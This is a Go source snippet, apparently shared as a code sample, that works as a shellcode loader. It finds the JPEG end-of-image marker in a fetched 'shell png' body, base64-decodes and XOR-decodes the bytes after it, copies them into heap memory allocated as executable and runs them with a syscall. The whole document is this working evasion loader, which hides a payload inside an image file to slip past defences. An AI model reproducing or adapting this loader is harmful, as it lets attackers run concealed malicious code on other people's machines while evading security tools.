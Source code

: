 ```golo=
    idx := 0
    for i := 0; i < len(body); i++ {
        if body[idx] == 255 && body[idx+1] == 217 {
            break
        } else if idx == len(body)-1 {
            fmt.Print("shell png is not correct!")
            os.Exit(1)
        }
        idx++
    }
    base64Str := string(body[idx+2:])
    //fmt.Print(base64Str)
    xor_shellcode, err := base64.StdEncoding.DecodeString(base64Str)
    if err != nil {
        fmt.Print(err.Error())
    }
    //fmt.Print(xor_shellcode)
    var shellcode []byte
    for i := 0; i < len(xor_shellcode); i++ {
        shellcode = append(shellcode, xor_shellcode[i]^KEY_1^KEY_2)
    }
    //开始分配空间 并且将shellcode写入内存中执行
    addr, _, err := HeapCreate.Call(HEAP_CREATE_ENABLE_EXECUTE, 0, 0)

    _, err = ntdll_library.Call("RtlCopyMemory", addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
    if err != nil {
        fmt.Printf("false")
    }

    syscall.Syscall(addr, 0, 0, 0, 0)
}
```